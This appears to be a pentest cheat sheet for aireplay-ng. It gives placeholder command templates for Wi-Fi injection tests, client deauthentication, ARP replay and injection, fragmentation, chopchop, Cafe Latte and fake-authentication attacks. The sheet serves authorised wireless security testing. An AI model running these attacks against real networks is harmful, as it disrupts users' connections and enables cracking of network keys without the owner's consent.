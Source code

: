 # aireplay-ng
% wifi, aireplay-ng
#plateform/linux #target/remote #cat/RECON #cat/ATTACK

## _desc
```
generate wifi traffic. The device must be set to monitor mode and channel must be set.
```

## _repo
```
```

## _doc
```
https://www.aircrack-ng.org/doku.php?id=aireplay-ng
```

## _install
```
```

## Injection test
```bash
sudo aireplay-ng --test <wlan_mon_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> <wlan_mon_interface|wmon> 
```

## Injection test essid
```bash
sudo aireplay-ng --test -e <essid> -a <bssid> <wlan_mon_interface|wmon> 
```


## Deauthentication
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && 
sudo aireplay-ng --deauth <count|5> -a <bssid> -c <wlan_station_mac> <wlan_mon_interface|wmon>
```

## ARP capture / replay attack
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && 
sudo aireplay-ng --arpreplay -b <bssid> -h <wlan_station_mac> <wlan_mon_interface|wmon>
```

## fragment attack
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --fragment -b <bssid> -h <wlan_station_mac> <wlan_mon_interface|wmon>
```

## KoreK chopchop attack
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --chopchop -b <bssid> -h <wlan_station_mac> <wlan_mon_interface|wmon>
```

## ARP injection
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng --interactive -r <forged_arp_fle>.cap -h <bssid> <wlan_mon_interface|wmon>
```

## Cafe latte attack
```bash
sudo iw dev <wlan_mon_interface|wmon> set channel <wlan_channel> && sudo aireplay-ng -6 -D -b <bssid> -h <wlan_station_mac> <wlan_mon_interface|wmon>
```

## fake auth
```bash
sudo aireplay-ng --fakeauth 1000 -o 1 -q 5 -e <ssid> -a <bssid> -h <current_mac> <wlan_mon_interface|wmon>
```